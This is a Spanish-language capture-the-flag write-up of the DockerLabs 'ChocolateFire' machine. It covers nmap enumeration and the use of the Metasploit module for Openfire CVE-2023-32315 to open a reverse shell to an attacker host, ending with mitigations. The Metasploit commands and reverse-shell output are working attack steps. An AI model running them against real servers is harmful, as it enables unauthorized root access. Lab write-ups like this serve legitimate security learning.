










# ChocolateFire - DockerLabs

| Campo      | Detalle                   |
| ---------- | ------------------------- |
| Plataforma | DockerLabs                |
| Dificultad | Media                     |
| Sistema    | Linux (contenedor Docker) |
| IP         | 172.17.0.2                |
| Fecha      | 19/10/2026                |

## Resumen

El acceso inicial se obtiene explotando una vulnerabilidad de bypass de autenticación y ejecución remota de código (CVE-2023-32315) en el panel de administración de Openfire 4.7.4, usando un módulo de Metasploit. El propio exploit entrega directamente una shell como usuario `root`, por lo que no es necesaria una fase adicional de escalada de privilegios.

## Despliegue del laboratorio

Se despliega la máquina vulnerable con el script proporcionado por DockerLabs:

```bash
sudo bash auto_deploy.sh chocolatefire.tar
```

El script indica que la máquina ha quedado desplegada y asigna la siguiente IP:

```
Máquina desplegada, su dirección IP es —> 172.17.0.2
```



## Reconocimiento

Se lanza un escaneo de puertos completo con Nmap:

```bash
sudo nmap -p- -sS -sC -sV -T5 -n -Pn -vvv 172.17.0.2
```

Parámetros empleados:

- `-p-`: escanea los 65535 puertos TCP, no solo los más comunes.
- `-sS`: escaneo SYN (half-open), rápido y discreto.
- `-sC`: ejecuta los scripts NSE por defecto para obtener más información de cada servicio.
- `-sV`: detección de versión de los servicios.
- `-T5`: plantilla de temporización más agresiva, para acelerar el escaneo.
- `-n`: no resuelve DNS inverso.
- `-Pn`: omite el descubrimiento de host (asume que está activo), necesario porque muchos entornos Docker/CTF no responden a ping.
- `-vvv`: salida muy detallada, útil para ver los puertos según se van descubriendo.

Puertos descubiertos:

```
22/tcp    open
5222/tcp  open
5223/tcp  open
5262/tcp  open
5263/tcp  open
5269/tcp  open
5270/tcp  open
5275/tcp  open
5276/tcp  open
7070/tcp  open
7777/tcp  open
9090/tcp  open
```



## Enumeración

Entre los puertos descubiertos destacan dos que exponen servicios HTTP: el **7070** y el **9090**. El detalle del escaneo de servicios muestra:

```
7070/tcp open  http          syn-ack ttl 64 Jetty
|_http-title: Openfire HTTP Binding Service
7777/tcp open  socks5        syn-ack ttl 64 (No authentication; connection failed)
9090/tcp open  hadoop-tasktracker syn-ack ttl 64 Apache Hadoop
```



Al acceder por navegador a ambos puertos, el puerto **9090** muestra un formulario de login correspondiente al software **Openfire**, indicando además la versión instalada en la propia pantalla de login:

```
Openfire, Version: 4.7.4
```



Se busca en Google si esta versión de Openfire tiene algún exploit o CVE asociado:



Se confirma que la versión es vulnerable a **CVE-2023-32315**, una vulnerabilidad de *path traversal* en la consola de administración de Openfire que permite eludir la autenticación y, combinada con la carga de un plugin, ejecutar código remoto.

## Explotación / acceso inicial

Se abre Metasploit Framework y se busca un módulo para el CVE identificado:

```bash
msfconsole
search CVE-2023-32315
```



Metasploit localiza un módulo específico para la vulnerabilidad:

```
0  exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315   2023-05-26   excellent   Yes   Openfire authentication bypass with RCE plugin
```



Se selecciona el módulo y se revisan sus opciones, confirmando que el puerto remoto por defecto (`RPORT 9090`) coincide con el panel de administración detectado:

```
use 0
show options
```



Se configuran la IP de la máquina víctima (`RHOSTS`) y la IP de la máquina atacante (`LHOST`) para recibir la conexión inversa:

```
set RHOSTS 172.17.0.2
set LHOST 192.168.1.150
```



Se ejecuta el exploit:

```
run
```

El módulo confirma que el objetivo es vulnerable, crea un usuario administrador temporal, sube un plugin malicioso con el payload `java/shell/reverse_tcp` y lo ejecuta, obteniendo una shell:

```
[+] The target appears to be vulnerable. Openfire version is 4.7.4
[*] Adding a new admin user.
[*] Logging in with admin user "emogzgdvejqc" and password "ktun2yZjnH".
[*] Upload and execute plugin "7S7CABuM61V7CU" with payload "java/shell/reverse_tcp".
[*] Command shell session 1 opened (192.168.1.150:4444 -> 172.17.0.2:41580)
```

Se comprueba el usuario obtenido:

```bash
whoami
root
```

La shell se obtiene directamente como **root**, sin pasos intermedios de escalada.



## Conclusiones y mitigaciones

- **Vulnerabilidad principal**: Openfire 4.7.4 es vulnerable a CVE-2023-32315, un *path traversal* en la consola de administración que permite crear un usuario administrador sin autenticación y, a través de la carga de plugins, ejecutar código arbitrario en el servidor con los privilegios del proceso (en este caso, root).
- **Mitigación**: actualizar Openfire a una versión parcheada (posterior a la 4.7.5 / 4.6.8 / 4.4.8, según rama), restringir el acceso a la consola de administración (puerto 9090/9091) solo a redes de confianza, y evitar ejecutar el servicio con privilegios de root.
- **Buenas prácticas generales**: no exponer paneles de administración a redes no confiables, aplicar el principio de mínimo privilegio en los servicios expuestos y mantener un proceso de gestión de parches para detectar software desactualizado.

## Herramientas utilizadas

- `nmap` — escaneo y enumeración de puertos y servicios.
- Navegador web — acceso e identificación del panel de administración de Openfire.
- Google — búsqueda de vulnerabilidades conocidas (CVE) para la versión detectada.
- `msfconsole` (Metasploit Framework) — explotación de CVE-2023-32315 y obtención de shell.
